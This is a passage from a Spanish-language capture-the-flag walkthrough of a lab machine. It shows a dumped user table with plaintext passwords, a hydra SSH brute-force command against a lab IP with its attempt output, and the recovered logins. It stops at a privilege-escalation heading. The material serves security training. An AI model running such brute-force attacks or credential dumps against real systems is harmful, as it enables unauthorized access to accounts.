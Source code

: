 
```
  id  firstname    lastname    username    password       reg_date
----  -----------  ----------  ----------  -------------  -------------------

   1  Mary         Moe         marym       3kfs86sfd      2019-12-29 16:58:26
   2  Julie        Dooley      julied      468sfdfsd2     2019-12-29 16:58:26
   3  Fred         Flintstone  fredf       4sfd87sfd1     2019-12-29 16:58:26
   4  Barney       Rubble      barneyr     RocksOff       2019-12-29 16:58:26
   5  Tom          Cat         tomc        TC&TheBoyz     2019-12-29 16:58:26
   6  Jerry        Mouse       jerrym      B8m#48sd       2019-12-29 16:58:26
   7  Wilma        Flintstone  wilmaf      Pebbles        2019-12-29 16:58:26
   8  Betty        Rubble      bettyr      BamBam01       2019-12-29 16:58:26
   9  Chandler     Bing        chandlerb   UrAG0D!        2019-12-29 16:58:26
  10  Joey         Tribbiani   joeyt       Passw0rd       2019-12-29 16:58:26
  11  Rachel       Green       rachelg     yN72#dsd       2019-12-29 16:58:26
  12  Ross         Geller      rossg       ILoveRachel    2019-12-29 16:58:26
  13  Monica       Geller      monicag     3248dsds7s     2019-12-29 16:58:26
  14  Phoebe       Buffay      phoebeb     smellycats     2019-12-29 16:58:26
  15  Scooter      McScoots    scoots      YR3BVxxxw87    2019-12-29 16:58:26
  16  Donald       Trump       janitor     Ilovepeepee    2019-12-29 16:58:26
  17  Scott        Morrison    janitor2    Hawaii-Five-0  2019-12-29 16:58:28
```

----

> Tener en cuenta que solo se podrá realizar un ataque limitado de fuerza bruta con hydra ya que al siguiente ataque se nos bloqueará y mostrará el siguiente error:


```
❯ hydra -L users.txt -P passwords.txt 192.168.0.114 ssh -V
[...]
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:1/p:17), ~2 tries per task
[DATA] attacking ssh://192.168.0.114:22/
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "3kfs86sfd    " - 1 of 17 [child 0] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "468sfdfsd2   " - 2 of 17 [child 1] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "4sfd87sfd1   " - 3 of 17 [child 2] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "RocksOff     " - 4 of 17 [child 3] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "TC&TheBoyz   " - 5 of 17 [child 4] (0/0)
[ATTEMPT] target 192.168.0.114 - login "janitor  " - pass "B8m#48sd     " - 6 of 17 [child 5] (0/0)
```

Obtenemos estas credenciales:

```
janitor : Ilovepeepee
joeyt   : Passw0rd
fred    : B4-Tru3-001
```

## Escalada de privilegios

Dentro del directorio de usuario `janitor` encuentro un archivo con posibles contraseñas de otros usuario:
